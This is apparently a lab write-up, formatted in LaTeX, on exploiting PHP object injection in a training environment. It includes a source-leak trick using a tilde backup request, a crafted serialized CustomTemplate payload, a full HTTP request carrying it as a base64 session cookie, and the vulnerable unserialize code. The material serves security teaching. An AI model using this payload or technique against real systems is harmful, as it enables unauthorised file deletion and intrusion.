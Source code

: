 \documentclass[11pt]{article}
\begin{document}
\subsection{Lab 4: Arbitrary Object Injection in PHP}
\begin{labbox}{Goal}
Discover a second class (\texttt{CustomTemplate}) via leaked source code, then inject an entirely different object type than the one the session mechanism expects, abusing its \verb|__destruct()| to delete \texttt{morale.txt}.
\end{labbox}
\begin{enumerate}
    \item Log in and note the session cookie decodes to a \texttt{User} object; browsing the site reveals a reference to \texttt{/libs/CustomTemplate.php}.
    \item Send that request to Repeater and append a tilde: \texttt{GET /libs/CustomTemplate.php\~{}} -- this editor-backup trick returns the full PHP source.
    \item Read the source: \texttt{CustomTemplate} has a \texttt{lock\_file\_path} attribute and a \verb|__destruct()| method that calls \verb|unlink($this->lock_file_path)| unconditionally.
    \item Craft a brand-new serialized object of type \texttt{CustomTemplate} (not \texttt{User}) with \texttt{lock\_file\_path} set to \texttt{/home/carlos/morale.txt}: \\ \verb|O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}|
    \item Base64- and URL-encode it, replace the session cookie entirely, and send -- \verb|unserialize()| instantiates a \texttt{CustomTemplate} instead of \texttt{User}, and its destructor fires at end of request, deleting the file (a 500 error is expected and fine).
\end{enumerate}
\begin{lstlisting}[style=http]
GET /my-account HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmls
ZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
class CustomTemplate {
    private $lock_file_path;
    function __destruct() {
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
$obj = unserialize($_COOKIE['session']);   # class name comes from the cookie itself!
\end{lstlisting}
The developer never restricted \textit{which} class \texttt{unserialize()} is allowed to build. As long as \textbf{any} autoloaded class has a dangerous magic method, an attacker can request that class by name in the payload -- this is the defining feature of PHP object injection.
\end{causebox}
\end{document}
